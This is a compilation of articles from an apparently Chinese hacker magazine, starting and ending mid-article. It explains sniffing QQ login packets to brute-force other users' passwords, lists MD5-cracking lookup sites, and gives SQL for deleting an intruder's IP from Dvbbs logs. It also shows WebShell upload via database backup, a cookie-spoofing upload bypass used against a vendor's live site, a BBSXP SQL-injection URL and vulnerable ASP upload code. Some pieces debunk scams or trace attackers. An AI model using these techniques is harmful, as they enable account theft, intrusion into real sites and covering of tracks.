- 二是启用IPSec策略，为服务器的连接进行安全认证，给服务器加上双保险。可以在这里封掉一些危险的端口，如135、145、139、445、UDP对外连接之类，以及对通信进行加密，并只与有信任关系的IP或者网络进行通信等。
- 三是修改访问控制列表，让系统以最小的权限运行，删除或者移动敏感文件，如 `cmd.exe`、`net.exe`、`net1.exe` 等。此外还有许多其他的安全措施，这里就不提了。

攻击到这里就结束了。从这次的攻击过程来看，又一次验证了安全是相对的。为了系统安全而安装的Kaspersky Internet Security却成为了系统的杀手。这让我想起了另外一个安全产品BlackICE也出现过几个溢出的安全漏洞，而且其中还有远程缓冲区溢出漏洞，异常危险，不过这是2004年的漏洞，已经是老古董了。所以说安全是一个整体，任何一个小小的疏忽或者漏洞都可能会让你的网站或者系统沦陷。同时也不要以为自己装了防火墙或者杀毒软件就高枕无忧了，有时杀毒软件或者防火墙甚至都能成为系统的杀手。

适合读者：网民、编程爱好者  
前置知识：QQ协议工作原理基础


## QQ登录过程感受分析

文／图 安全焦点 ISNO

### 破解QQ密码的方法

总是有人以各种各样的理由找我破解别人的QQ密码，其实我也不能肯定就一定能破出对方的密码，所以总是觉得啼笑皆非。总结起来现在破解QQ密码的手段有哪些呢？干脆我来介绍一下好了。第一种是本地盗用，一般是利用木马从QQ使用者的机器上获取用户输入的密码。这种方法的缺点是首先要获取对方主机的权限，以漏洞或者欺骗的方式进行破解。第二种是远程破解，掌握了QQ的通信方式，用程序模拟QQ到服务器上进行登录验证，然后用字典或暴力方式来进行破解。由于网速限制，这种方法的效率一般比较低，对于较复杂的密码很难破解出来。第三种方法是通过其它间接的方式，如破解对方邮箱，或者腾讯的服务器有某些漏洞可以导致密码泄漏。

其实除了以上的攻击手段，还有一种较少使用的方法，通过Sniffer来捕获QQ通信信息。由于QQ所使用的通信协议的特殊性，可以利用捕获到的信息来穷举出登录密码，因为这种破解是在本地进行的，所以速度要比远程破解快一些。这种方法比较适合在网吧等地盗QQ。

### QQ通信协议介绍

要通过抓取数据包来破解QQ密码，首先要对QQ的通信协议有一定了解。只是通过抓包来分析的话，工作量是相当巨大的，幸好现在网上有一些开源的QQ项目，例如LumaQQ、Perl-oicq。这样我们就可以轻易了解到QQ基本的通信协议了。QQ的通信协议是一套基于二进制数据自主开发的应用层网络协议，其中使用了一些公开的加密算法。QQ基本通信协议支持UDP和TCP两种基本协议方式，两种方式的基本数据结构是一样的，只是TCP包多了一个描述长度的头部。那么我们就来看看QQ的登录过程是怎样的：

首先QQ客户端向服务器发送一个请求登录令牌的数据包，服务器返回登录令牌，这个令牌是在服务器端生成的，和客户端的IP地址、版本信息等数据相关，下文会用到这个令牌去进行其它操作。

在QQ客户端得到登录令牌后，就会向服务器发送一个包含登录信息的登录请求，服务器首先会查看客户端的号码、IP地址和版本是否可以在本服务器上进行登录。如果可以就验证客户端的登录信息是否与服务器上保存的登录信息一致；如果一致就向客户端返回一个登录成功的数据包，不匹配则返回登录失败。其实整个QQ登录过程就是这么简单的两个步骤，如图1所示。


了解QQ登录的过程后，我们还需要知道具体的数据包格式，以便解析出我们需要的数据内容。QQ登录过程的数据包分为头部、内容和尾部三个部分。其中头部的格式固定为：

| 0x02 | 客户端版本 | 命令 | 序列号 | QQ号码 |
|---|---|---|---|---|

其中0x02是1个字节的标志；客户端版本2个字节，用于表示QQ客户端的版本；命令2字节，表示要发送的命令类型，例如请求登录令牌、登录请求等；序列号是一个2字节的随机数，在一次QQ会话中通过它来确认回应包是否对应请求包，QQ客户端默认每次加1；QQ号码就是4字节的QQ号。对于服务器来说这个字段是无所谓的。QQ登录过程数据包的尾部固定为0x03。

#### 1. 请求登录令牌包

包内容就是一条命令的具体信息。对于第一次发送的请求登录令牌包来说，包命令是0x0062，整个请求包如下所示：

- 1. 头部
- 2. 20×0x00
- 3. 尾部

而服务器返回包则相对复杂一些，如下所示。

- 1. 头部
- 2. 回复码，`0x00` 表示成功，1字节
- 3. 登录令牌长度，默认为 `0x18`
- 4. 登录令牌
- 5. 尾部

其中 `0x18` 表示登录令牌的长度。现在QQ默认的登录令牌长度是 `0x18`，此令牌是在服务器端生成的，具体生成算法我们当然无从得知。

#### 2. 登录包

对于我们嗅探QQ密码来说，最重要的就是登录包，在这里面包含了和QQ密码相关的信息。登录包的具体结构如下：

- 1. 头部
- 2. 初始密钥，16字节
- 3. 用户的密码密钥加密一个空串得到的16字节
- 4. 36字节的固定内容，未知含义
- 5. 登录状态（隐藏登录还是什么），1字节
- 6. 16字节固定内容，未知含义
- 7. 登录令牌长度，1字节
- 8. 登录令牌
- 9. 登录模式，1字节，目前只支持普通模式
- 10. 未知1字节，`0x40`
- 11. 后面跟的个数，1字节；1个段9字节（猜测）
- 12. 段：每次基本都是固定内容，未知含义
- 13. 长度不足则全部填0直到符合登录包长度；UDP模式登录请求包长度为416字节
- 14. 尾部

其中初始密钥是一个16字节的随机数，用于本身的加密。这里最重要的是密码密钥加密的一个空字符串。所谓密码密钥就是用QQ口令进行两次MD5加密后得到的密文，然后以这个密文作为密钥去加密一个空字符串。这次加密使用了反馈的TEA算法，加密结果放在QQ登录包里，让服务器去验证。由于QQ的加密算法使用特殊的填充机制使得QQ服务器可以验证出用户密码是否正确，下文会详细解释。QQ登录包里还有一些诸如登录状态、登录令牌和很多未知的内容，但是对于我们破解QQ密码来说并没有什么太大的帮助。

> 前面的请求登录令牌包是不加密的，而这个登录包除了初始密钥本身以外的部分都要用初始密钥进行加密，加密算法同样是反馈的TEA。

QQ服务器在收到登录包之后，首先用初始密钥解密登录包后面的部分，如果解密成功，就会用保存在服务器上的QQ密码信息去解开密码密钥加密的空字符串密文。只有当用户提交的密码正确时，解密才能成功，否则解密函数返回空，认证就失败了。当验证QQ客户端密码准确无误后，将返回一个登录成功包，格式如下：

- 1. 头部
- 2. 回复码，1字节
- 3. 会话密钥，16字节
- 4. 用户的QQ号，4字节
- 5. 用户的IP，4字节
- 6. 用户的端口，2字节
- 7. 服务器的IP，4字节
- 8. 服务器的端口，2字节
- 9. 本次登录时间，4字节
- 10. 未知的26字节
- 11. 未知服务器1的IP，4字节
- 12. 未知服务器1的端口，2字节
- 13. 未知服务器2的IP，4字节
- 14. 未知服务器2的端口，2字节
- 15. 2个未知字节
- 16. 2个未知字节
- 17. Client Key，32字节
- 18. 12个未知字节
- 19. 上次登录时的IP，4字节
- 20. 上次登录时的时间，4字节
- 21. 8个未知字节
- 22. 尾部

我们可以看到其中包含了会话密钥、登录时间、IP、Client Key等内容，这些都会在后面的具体应用中被QQ客户端使用到。这个返回包也是用密码密钥加密的。

### QQ的加密算法

了解了QQ登录的通信协议后还不足以破解QQ密码，我们还需要掌握QQ的加密算法。前面提到了，密码密钥是用户密码进行两次MD5加密之后得到的结果。然后再用它作为密钥使用TEA算法进行加密。TEA是Tiny Encrypt Arithmetic的缩写，顾名思义就是一种比较简单的小型加密算法，它用一个16字节的密钥去加密一个8字节的明文，得到一个8字节的密文，也可以反向从密文解密出明文。具体算法可以到网上搜索查阅，这里就不再赘述。

QQ使用的TEA虽然是标准TEA，但是却使用了一种特殊的填充反馈机制。QQ消息被分为多个加密单元，每一个加密单元都是8字节，使用TEA进行加密。加密结果再作为下一个单元的密钥。如果明文本身的长度不是8的倍数，那么还要进行填充，使其成为8的倍数。填充的时候会用一个32位随机数存放于明文的开始位置，然后在明文的最后用0填充，保证整个长度是8的倍数，因为会向后反馈，这样即使对于相同的明文，因为使用了不同的随机数，也会产生完全不同的密文。

使用这种特殊的填充反馈算法所导致的结果就是：一段密文只能用加密它的密钥进行解密，如果使用不正确的密钥，就无法得到正确的填充结果，最常见的就是解密后得到的填充数值不是0，这样就判断解密失败。服务器正是根据这种机制来确定客户端的密码是否正确的，这也是我们破解QQ密码的原理所在。

### 穷举破解QQ密码

看到这里聪明的读者一定明白该如何通过抓包来破解QQ密码了，让我们来回顾一下：当处于同一个局域网中的QQ客户端登录的时候，它会向服务器发送一个请求登录令牌包，服务器也会返回登录令牌包，但这对我们作用不大；然后它会发送登录包，里面包含了用密码密钥加密的16位密文。服务器收到登录包后验证用户密码正确与否，然后返回登录成功或者失败的应答包。

我们只要抓到QQ客户端向服务端发送的登录包，先用初始密钥把它解开，就可以得到其密码密钥加密的16位密文，这样使用同样的解密算法就能发现哪个密码能够解开此密文。由于抓包后是在本地进行破解的，只要我们的CPU够快、内存够多、破解时间够长就一定能破出它的密码。这比通常的通过网络进行破解的方法要快很多。

有了思路，只要写出程序就可以实现QQ密码的破解了。首先是抓包，我使用了WinPcap来抓包。这样在HUB环境下可以抓到所有的QQ包，在交换环境中，我们可以使用一些ARP欺骗工具，同样能抓到特定IP所发出的包。QQ的加密算法实现，参考网上的Perl-oicq和LumaQQ等代码也可以轻易实现。然后用字典或者暴力破解的方法对密文进行解密即可。

```
结果 = decrypt(密文, MD5(MD5(密码)))
如果结果不为空的时候就是正确的密码。
```

### 实际破解过程

我写了一个程序来示例整个破解的过程，由于仅仅是用于示意，程序写得较为粗糙，加密算法没有进行优化，这样在破解速度上效率不高，如果用汇编去实现的话速度还能提高很多。具体用法如下。


要使用这个程序必须安装WinPcap 3.0，这样才能抓包。安装完WinPcap后，直接运行qqsniffer.exe，会出现如图2所示界面。


里面列出的是你机器的网卡，选中要抓包的网卡，然后点OK，进入抓包界面，如图3所示。


这样就开始Sniff网络上所有的QQ包了，当有QQ进行登录的时候，程序会抓到QQ登录包，下面的密码破解按钮变为黑色，点击这个按钮，进入密码破解界面，如图4所示。

可以看到QQ号和对应的密码密钥加密后的16字节密文，我们选择字典破解，打开相应的字典文件，点击开始破解，如果你的字典里面包含正确密码，就会弹出成功破解对方密码的对话框。如果试了很多字典都不行，也可以选择暴力破解，实际上就是穷举所有8位的字母和数字组合的密码，但是这种方法比较浪费时间，可能要跑几年也跑不出对方密码。

本程序只是示例，可能有一些Bug，读者完全可以根据前面的原理，写出更高效的破解程序来。

适合读者：网民  
前置知识：无


### 别让“黑客”乱花你的钱

文／李培林

贼，很多人都遇到过，运气好的，当场发现可以挽回自己的损失；还可以将盗贼绳之以法；运气不好的，只能自己安慰自己“财去人平安”，下次小心就是了。

有一种贼，他利用现代科技手段盗别人钱财于无形之中，让人防不胜防，这就是“网络盗贼”。把这种贼叫做“黑客”似乎也不妥当，毕竟大部分的黑客不是专干这种勾当的。

言归正传，今天我要讲述的是一个真实的故事。

### 多出的网费哪里来？

上个月我到银行的“自助缴费通”交电话费，我家的电话每个月的费用都是105元（100元包月上网，5元停机保号费），可这次却是135元。到银行窗口打印了单据，发现多出了30元的“网上应用费”，银行人员无法解释费用是如何产生的，让我找网通公司咨询一下。

网通的工作人员告诉我，网上应用费一般是登录收费的网站看电影产生的，这个大概和“想网”（5A5E）有关，让我打电话咨询一下。于是我就又给“想网”打电话，把我的情况详细说明了一下。对方也多次询问有没有登录他们的网站看收费的电影，在我一再确认没有后，他们答应帮我查询。

一天后，接到回复的电话，真的是大吃一惊。对方说他们的技术人员利用各种手段终于查到了，原来那30元的“网上应用费”是在腾讯网申请了3个收费的服务：QQ秀红钻贵族、QQ游戏蓝钻贵族、QQ黄钻贵族，每个服务包月费10元，并告诉我到网上自己查询。登录网站后发现确实申请了这3个服务，但并不是我本人申请。由于这些服务按自然月计费并自动续费，即使立刻取消，当月费用也已扣除。笔者建议遇到此类情况先冷静，保留证据，必要时报警处理。

> 不光是宽带支付可以查出资金去向，网游一样有这种功能。若被盗装备用于交易，只要证据充分，通常可以追查；如登录IP、登录时间、虚拟金额流向等都可作为记录。

### 都是代理惹的祸

怎么会不知不觉被“盗”得手呢？原来是代理服务作祟。目前不少地区的网通宽带用户可用宽带账号开通QQ会员、QQ秀等服务。若代理链路被他人利用，可能在不掌握账号密码的情况下代为申请收费服务。

### 别让“黑客”乱花你的钱

- 明明白白消费：定期打印详单，发现异常立即处理。
- 小心驶得万年船：对需输入手机号或账号的网站保持警惕，勿轻信“免费服务”。
- 做好防护措施：不在公用电脑输入敏感账号；安装杀毒软件；关闭不必要端口与服务。
- 与“黑客”斗争到底：保留证据并及时向公安机关报案。

既然找到根源，就要采取对策。网络便利也带来风险，许多用户因缺乏核对消费明细的习惯而给不法分子可乘之机。提升安全意识、加强终端防护，是减少损失的关键。

适合读者：入侵爱好者  
前置知识：无

## 在线破解网站一览


MD5加密因其不可逆性催生了多种“破解/查询”工具。传统做法是将候选字符串做MD5后比对，速度受限；而在线站点通过预先建立映射库，可在已收录情况下快速反查明文。

- 在线MD5类站点常见类型：
- 下载并安装ActiveX控件，本地计算MD5。
- 使用远程服务器代算。
- 在线查询系统：预存“明文—MD5”对应关系供检索（如 `http://www.xmd5.org`）。
- 其他综合型查询接口。

4：MD5收集查询系统。关于数据库这一块和方式3类似，但是比方式3更合理，可以根据用户需要，随时补充数据库“http://www.milw0rm.com/md5/list.php”。方式1和方式2原理同MD5Crack3，大同小异，同样是暴力猜测。方式1和方式2这里不做说明，下面简单介绍一下方式3和方式4。

### MD5密码在线查询系统

什么是MD5在线查询系统？我事先把常用的密码用MD5加密，然后和原密码一起存到数据库里。用户提交查询，如果数据库中有MD5的密码记录，就反馈给用户。原理很简单，关键是数据库里密码记录的多少。暴力破解一个密码要花很多时间，把已知的MD5收集起来，下次别人碰到了就不必再暴力破解了。查询不是暴力破解，数据库很快就会给你结果，没有的话就没有办法了，不过可以告诉你密码不在什么范围之内。此时再有选择地暴力破解就可以省不少时间。


一个MD5收集查询服务的站点，如图4所示。图4中说明如下：TYPE表示类型，MD5为32位MD5密文，LM为16位MD5密文。HASH中显示的是MD5散列。PASS中显示的是字符串，也就是破解出来的密码，如未被破解则以空格表示。STATUS中显示当前的状态，还没有开始破解时显示的是Waiting，如果正在破解中，则显示Processing。已破解出来的是Cracked，如果认为破解不出来的是NotFound。我们进入这个网站当然是为了得到自己的查询结果。首先点击[Search]菜单进入查询页面，输入自己需要查询的MD5密文，如图5所示。


http://www.xmd5.org 就是这样的站点，查询界面如图1所示：“www.xmd5.org”主页显示目前拥有2000万左右的密码记录。


我们测试了一下：在解密框输入1e56e551c86bd8ee，然后点击“给我转”按钮，不到1秒结果就出来了，如图2所示：“Result: 665513”就是查询结果。


以上是国内的查询站点，下面是一个国外MD5查询站点，“http://md5.rednoize.com/”，如图3所示。该站为搜索引擎的形式，支持双向转换，即：MD5→字符串／字符串→MD5。

### MD5收集查询系统

MD5收集查询系统就是指网站在提供查询功能的同时随时追加新内容，收集MD5密文并提供破解。比如国外站点“http://www.milw0rm.com/md5/list.php”就是一个MD5收集查询服务的站点。


如果数据库中已有该密文，很快就能找出结果。如果还没有收录，我们就点[Insert]菜单进入提交页面。在提交按钮Submit前有一个选择按钮，如是16位MD5密文就选择LM，如是32位MD5密文就选择MD5。如图6所示。


## 揭穿虚假QQ中奖信息的骗局

文／图 佟金明

面对犯罪分子的欺骗手段花样翻新，大家已经防不胜防。但是只要你仔细观察，就一定能发现蛛丝马迹！我最近就遇见过这样的事情。那天在QQ对战平台里玩红色警戒时，系统发来的一条消息引起了我的注意，内容如下：

> 【14:02:07】QQ Admin：尊敬的QQ用户您好……您可以获得本公司送出的奖品……请联系客服人员QQ……（验证码：5808）

刚收到信息时我就有一点怀疑……我打开了我的QQ，和号称是QQ Admin（管理员）的号码进行了简单的对话，具体内容如下：

> QQ Admin：您好，这里是QQ对战平台客服……  
> 北方雪在三明：什么是温馨消息……  
> QQ Admin：为了确认有人冒充用户，请输入您收到的验证码……  
> 北方雪在三明：5808  
> QQ Admin：请问您的QQ号是多少？QQ昵称叫什么？在哪里收到提示温馨消息的？  
> ……  
> QQ Admin：相关奖项更多了解，http://battleqq.5888.com 请您确认。

> 请仔细查看并按照上面的提示办理。注意：这才是腾讯公司的真正网址“http://battleqq.com/”……

下面我打开IE进入“http://battleqq.5888.com”，如图1所示。


主页上面的图片都是直接引用了腾讯公司的主页链接，所以你也可以点击直接进入腾讯游戏中心，整个页面看起来和真的一样。骗子的中奖确认地址如下：http://free3.savalo.com/fbi589/1.txt.txt。

当我们点击下一步的时候会进入另外一个确认界面，也可以直接修改上面的链接跳到其它页面，例如将链接中的1.txt.txt修改为2.txt.txt就会进入第2个页面，出现如图2所示对话框。


在这里只要输入验证码5808即可进入“http://free3.savalo.com/fbi589/3.txt.txt”，当然你也可以直接输入这个链接跳过验证。

下面我们直接输入如下地址“http://free3.savalo.com/fbi589/3.txt.txt”，此时出现“我的领取资料”填写页面，内容如图3所示。

这种可以直接跳过验证码的方法就是利用了网站的漏洞！腾讯官方是不可能出现这么低级的漏洞，否则岂不是人人都可以领奖。

从表面看这种正常的页面没什么明显区别，但如果你什么资料也没填写也能正常办理“提交”，如果是正规网站就会提示你填写完整，并包含电子邮箱确认、电话联系确认等步骤以保证正常领取。可见骗子并不关心你的真实信息。

我们接着进入下一个页面如图4所示。

这个页面上面会提示如下信息：

> 您登记的信息已保存成功，恭喜您，您已被腾讯QQGame系统确认为幸运玩家，您将获得由腾讯公司送出的惊喜奖金共计5000元人民币、腾讯QQGame游戏币8万元，以及价值6990元人民币的索尼爱立信W800c时尚手机一部。

现在骗子的目的已经显露出来了，他留下了一个邮政卡号和姓名，以及为了领取奖品需要支付380元人民币。

本文没有什么技术含量，仅向大家介绍了一种网络诈骗的手段。希望大家能引起注意不要上当，不要上当！

**脚本小子：**做黑客要适可而止，有金钱利益驱使的时候，就离犯罪不远了。其实通过黑客技术追踪恶意黑客是很简单的事情。

- 适合读者：网站站长、脚本爱好者
- 前置知识：动网基本知识

## VIP会员学习成果展

## 追踪网络勒索者

文/图 lucky_feng

动网的论坛模板占中国论坛的60%～70%份额，所以它的漏洞也经常被大家用来当作入侵的主要手段。一些小型站点的站长们往往在论坛被黑之后，不知道如何来应付。下面让我们一起来看看这些入侵者什么时候来的、从哪里来、又做了一些什么吧。

### 起因

经常看到消息说“黑客”勒索知名企业，想不到这样的事情我也能遇到。前几日，朋友通知我说他的网站被入侵并且勒索，如图1所示。

入侵者本来打算勒索5000元，但是因为这个论坛没什么用处，所以朋友一口拒绝了。后来勒索者降低了要求，于是就出现了如上图所示的要求。

### 入侵得到WebShell

朋友的论坛是刚刚挂上的，我采用默认的管理员账号admin、密码admin888尝试登录，结果没有成功。但让我吃惊的是动网默认的数据库路径“data/dvbbs7.mdb”没有修改。虽然管理员新增了一个用户名，同时密码非常复杂，并且论坛的版本是动网7.1 SP1；但是只要能打开dvbbs7.mdb，我就可以暴力破解管理员密码或者查看dv_log里的日志。

一般这样就能得到管理员的密码。如图2所示，密码是20位并且含有@和小数点，爆破基本没有任何希望。

```text
oldusername=%B1%...&username2=%B1%...
&password2=...&id=20&Submit=...
```

图2

### 后台日志追踪入侵者

拿着得到的管理员密码进入动网后台，接下来就是查看动网中的常规设置——论坛日志。这里记录了管理员的一些操作和信息。

#### 1. 入侵者得到WebShell

没有发现任何WebShell，所以这一步是论坛修复以后，本人为了文章内容全面而加上去的。

动网7.1 SP1目前常用的获得WebShell的方法：修改后台配置，增加上传数据库（mdb）类型，然后到前台发表文章（只需上传mdb文件即可，不需真的发表文章）。再到后台的“上传文件管理”中找到你上传的数据库文件地址，最后备份成ASP或ASA文件。

> 自己建立一个数据库：打开Access新建一个空数据库，随便加一个表一个列，列的类型为文本，建立好后再写一段数据进去：数据的内容就是ASP木马，或者是一句话木马。

日志里面有备份数据库的记录，如图3所示。

这几条记录告诉了我们上传数据库文件的时间，并且它被备份成为newup.asp。打开newup.asp，如图4所示。

典型的一句话木马，接下来可以写入大马继续做别的事情了。

#### 2. 得到入侵者的入侵时间和登录IP

1）入侵时间从上面的数据库文件名中已经可以得知，也可以到UploadFile/2006-2的文件夹下查看其建立的具体时间。  
2）登录的IP可以从论坛的日志中找到，日志内容包括对象、事件内容、操作时间、IP等。

从图5中我们可以看到：在某日11点10分入侵者进入后台并尝试了数据库备份，但未成功；在11点40分，因得不到WebShell，入侵者发布和修改了网站公告。

由于我朋友的“不合作”，这位入侵者在下午2点14分篡改了论坛的一些配置。警告信息如图6所示。

同时这里可以看到有两个进入后台的IP，但最后两组数字不同，估计是拨号重连后变化。攻击者的入侵时间、登录IP和操作等都已被详细记录，必要时可作为证据。

### 动网日志清理

动网系统默认两天内的日志会保留下来，所以入侵后的日志不能马上清理掉。我们可以用以下方法来清理。

1. 使用带数据库操作的ASP木马，如图7所示。  
2. 填写数据库地址进入数据库，如图8所示。  
3. 搜索关于自己的记录（以IP为例）。

```sql
select * from [Dv_Log] where l_ip='60.*.*.216'
```

如果语句没有错误，页面上会出现如图9所示结果。

4. 删除有关入侵IP的记录。

```sql
delete * from [Dv_Log] where l_ip='60.*.*.216'
```

如果语句没有错误，页面会出现“执行完毕”的提示。  
5. 删除操作后，已经没有关于此IP的记录。数据库其他表中也有一些相关信息，比如dv_user。

- 适合读者：网络管理员，脚本爱好者，程序开发人员
- 前置知识：ASP基础应用及修改

## 桃源网盘Cookie欺骗漏洞

文/图 1860

由于近期答应桃源官方的负责人风雨无阻，要帮其检测桃源网盘的漏洞，所以我就下载了最新的3.1个人版进行检查。在检测过程中发现其更新速度很快，但漏洞也不少，而且都比较低级。漏洞存在于3.1个人版和商业版。

### 突破上传ASP文件

漏洞简介：桃源网盘用户可利用Cookies欺骗上传恶意的ASP后门到其网络硬盘根目录或其它任何目录下。

这里我使用免费的个人版本进行测试，首先打开大家常用的抓包工具WSockExpert，然后注册一个用户尝试上传ASP后门，如图1所示。

IE一闪而过，提示不允许上传这种类型的文件。然后我们在WSockExpert中查看到以下信息，如图2所示。

WSockExpert将提示出错的情况分析出来了，我将POST上去的数据复制到文本中进行如下编辑，如图3所示。

由于测试的服务器只支持ASP，所以我将网盘禁止上传的ASP、ASPX类型删除。如果对方服务器支持PHP或CGI则要删除相应类型。到这里我们就完成了数据修改，可以上传ASP后门了，它的存放目录就在注册用户的个人目录。如果大家想将后门上传到其他目录，只需修改一下数据提交的路径，图3中标注的已经很清楚了。最后修改包的长度，如图4所示，用NC提交修改的文件到网站。

的测试，所以知其网盘上传的文件存放路径。如果大家在检测其它网盘时，不知其路径，就要进行上面提到的文件路径修改了。

图5

图6

上述就是对个人免费版进行的检测情况。由于没有商业版，为了知其商业版是否存在同样漏洞，我直接在桃源网盘官方进行了实战。步骤就是重复利用上述提及的方法，几分钟后，拿到了WebShell，如图6所示。

辗转一个春秋，桃源网络硬盘由开始的1.8到现在的3.1经历了无数次考验，安全性还是存在问题。

漏洞已经是老生常谈了，只是开发者一时没有注意到，相信他们日后会多关注此类问题的。

> **脚本小子：**看了这么多年黑防，不知道大家有什么感触。我们一直希望读者朋友们学会自己发现漏洞，而不是一味利用已经被发现的漏洞去入侵。只有自我发现、自我突破，你才能真实地感受黑客生活的美好……

- 适合读者：网络爱好者，脚本爱好者
- 前置知识：脚本入侵知识

### 总结

1. 动网虽然一次次被人发现漏洞，但是同时也变得越来越安全了。日志的设置可以让管理员发现一些可疑的非法操作。  
2. 入侵结束后千万不要忘记擦干净自己的小PP，这位入侵者竟然还敢留下电话号码……做黑客做到这一步，也真是无所畏惧了。

## BBSXP最新漏洞

### 发现过程

文/图 finstee

操作环境：Macromedia Dreamweaver 8.0 + IIS 5.0 + SQL Server 2000 + BBSXP 6.00 SP1 SQL

出差回来的这几天工作比较轻松，正好为大家献上前几天发现的BBSXP新漏洞，顺便给大家介绍一下查找ASP程序漏洞的方法。看到这里你应该会想到NBSI吧？没错，NBSI的确是一个不错的漏洞检测和利用工具，但它只能针对有规律可循的简单漏洞。从软件测试的角度来说它使用的是黑盒测试方法，而现在我要告诉大家的是白盒测试方法，从源代码中去查找漏洞（安全系数比较高的Bug）。

在开始之前要先选择一个顺手的工具，我用的是Dreamweaver 8.0。首先在DW中创建一个站点，如图1所示。

下面给大家介绍一些相关的理论基础，目的是为了让大家摆脱知其然而不知其所以然的困境。在ASP中的所有漏洞都是由于没有严格校验从客户端接收的数据而造成的……

为了简化查找的过程，我们要从一些关键字入手。利用Dreamweaver的搜索功能把可能会存在漏洞的位置查找出来。在ASP中接收客户端数据的方法不外乎Request对象，使用方法包括且类似于Request("ForumID")、Request.QueryString("ForumID")、Request.Form("ForumID")、Request.Cookies("ForumID")，因此只需要搜索Request关键字就可以了，搜索结果如图2所示。

文件名中包含Admin的就不需要再看了，因为我们不可能在普通用户的状态下访问到这些文件。双击Bank.asp中的一个搜索结果，在编辑窗口中可以看到下面的代码：

```vb
qmoney=int(Request("qmoney"))
if qmoney > Rs("UserMoney") then error("<li>您的现金没有这么多吧！")
if qmoney<1 then error("<li>存款不能为零！")
Rs("savemoney")=Rs("savemoney")+qmoney+accrual
Rs("UserMoney")=Rs("UserMoney")-qmoney
Rs("SaveMoneyTime")=now()
Rs.update
Rs.close
```

这里使用了 `int` 方法进行数据转换，同时使用 Recordset 字段赋值后保存数据，这么做是不可能产生漏洞的。事实上两个方法中只要使用了任意一个都无法注入，因此可以将类似的数据使用方法忽略。

双击 friends.asp 中的搜索结果可以找到如下代码：

```vb
incept=HTMLEncode(Request("incept"))
UserName=HTMLEncode(Request("UserName"))
sub add
if UserName="" then error2("请输入您要添加的好友名字！")
if UserName=CookieUserName then error2("不能添加自己！")
If Conn.Execute("Select id From [BBSXP_Users] where UserName='"&UserName&"'").eof Then error2("数据库中不存在此用户的资料！")
```

从查询语句上可以看出：如果 UserName 变量中包含单引号将会产生字符型注入漏洞，所以需要在 UserName 从客户端获取到拼接查询语句的过程中使用 HTMLEncode 方法来进行过滤，此法的实现逻辑如下：

```vb
function HTMLEncode(fString)
fString=Replace(fString,"'","&#39;")
fString=Replace(fString,"<","&lt;")
fString=Replace(fString,">","&gt;")
fString=Replace(fString,"\","&#92;")
fString=Replace(fString,"--","&#45;&#45;")
fString=Replace(fString,CHR(9),"&#9;")
fString=Replace(fString,CHR(10),"<br>")
fString=Replace(fString,CHR(13),"")
fString=Replace(fString,CHR(22),"&#22;")
fString=Replace(fString,CHR(32),"&#32;")
fString=Replace(fString,CHR(34),"&#34;")
fString=Replace(fString,CHR(39),"&#39;")
...
HTMLEncode=fString
end function
```

我们关注的方法中显然已经过滤了单引号，因此也就不会产生字符型注入漏洞。继续向下看搜索结果。如果看到类似的语句，且使用 HTMLEncode 方法过滤了，我们就可以认为它是安全的。

另外还有一些比较普通的情况，类似于如下代码：

```vb
select case Request("menu")
case "add"
  add
case "badr"
  bad
case "Del"
  Del
case "Post"
  Post
case "look"
  look
case "loadLog"
  loadLog
case "addPost"
  addPost
...
end select
```

```vb
addPost
case ""
index
end select
```

在这段代码中，menu 的值没有被用到查询语句中，也就不可能产生注入漏洞，同样也可以忽略。

上面我说了很多种不会产生漏洞的代码。通过对上面的几种情况进行排查分析后，在702个搜索结果中所剩的也就是只有十几个了。接下来说一下产生漏洞的代码，找到 Loading.asp 的第一个搜索结果，可以看到这段代码：

```vb
id=int(Request("id"))
ForumID=HTMLEncode(Request("ForumID"))
if id=0 then
  if Request("ForumID")<>0 then
    sql="select * from [BBSXP_UsersOnline] where UserName<>'' and eremite<>1"
  else
    sql="select * from [BBSXP_UsersOnline] where ForumID='"&ForumID&"' and UserName<>'' and eremite<>1"
  end if
end if
```

从查询语句来看，这段代码应该存在数字型注入漏洞。它对 ForumID 却使用 HTMLEncode 方法进行过滤，也就是说除了单引号等特殊字符外，字母和常用符号都可以通过验证。为了证实这个想法，我在这段代码后加了一句 `Response.Write(sql)` 用来测试。

输入如下的 URL：

```text
"http://localhost/bbsxp/loading.asp?ForumID=0/**/select/**/username/**/from/**/bbsxp_user/**/select/**/*/**/from/**/bbsxp_usersonline/**/where/**/forumid=0"
```

空白页面上显示出我们所需要的查询语句：

```sql
select * from [BBSXP_UsersOnline] where ForumID=0/**/select/**/username/**/from/**/bbsxp_user/**/select/**/*/**/from/**/bbsxp_usersonline/**/where/**/forumid=0 and UserName<>'' and eremite<>1
```

这意味着构造的语句已经成功地通过了系统过滤。现在我们可以把URL中的 `select/**/username/**/from/**/bbsxp_user` 修改成任意的、不包含特殊字符的SQL查询语句。接下来的操作不再展开。

由于论坛的安全性一般都比较高，所以漏洞查找多数时候像大海捞针。只要掌握了方法，多试几次总是可以找到。本文简单说明了漏洞发现过程，最后还留了一个不太显眼的问题给大家继续搜索。

**脚本小子：** 上传漏洞用了这么久，我们是不是该追溯一下它的历史呢？亲爱的读者朋友们思考过这个问题吗？

适合读者：网络爱好者、漏洞爱好者、脚本爱好者

前置知识：脚本基础知识

## 上传漏洞的形成


文/寂寞的刺猬

上传是一种比注入更具杀伤力的漏洞。通过注入所得到的往往是数据库中的一些敏感信息，如管理员名称、密码等；但上传漏洞不同，它可以把 ASP、JSP、CGI、PHP 等格式的木马上传至网站目录内，所得权限最低也是 WebShell。

对于上传漏洞的查找，仍是从源文件入手，目标有两个，一个是 `filePath`（文件路径），另一个则是 `FileName`（文件名称）。

### FilePath

说到 FilePath，有些朋友可能会感到陌生。但提到动网 6.0 的上传漏洞，大家一定都很熟悉吧？上传漏洞本质上是由于 FilePath 过滤不严引起的……下面让我们一起来分析下它的源码：

```asp
<%
dim upload,file,formName,formPath,iCount,filename,fileExt
set upload=new upload_5xSoft
formPath=upload.form("filepath")
if right(formPath,1)<>"/" then formPath=formPath&"/"
for each formName in upload.file
  set file=upload.file(formName)
  fileExt=lcase(right(file.filename,4))
  if fileExt<>".gif" and fileExt<>".jpg" and fileExt<>".zip" and fileExt<>".rar" and fileExt<>".swf" then
    response.write("文件格式不正确")
    response.end
  end if
  randomize
  ranNum=int(90000*rnd)+10000
  filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&fileExt
```

```asp
... 读取文件名并转换后缀名组成
if file.FileSize>0 then
  file.SaveAs Server.MapPath(FileName)  '// 保存文件
end if
set file=nothing
next
%>
```

在这段源码中，最关键的是这两句：

1. `formPath=upload.form("filepath")`
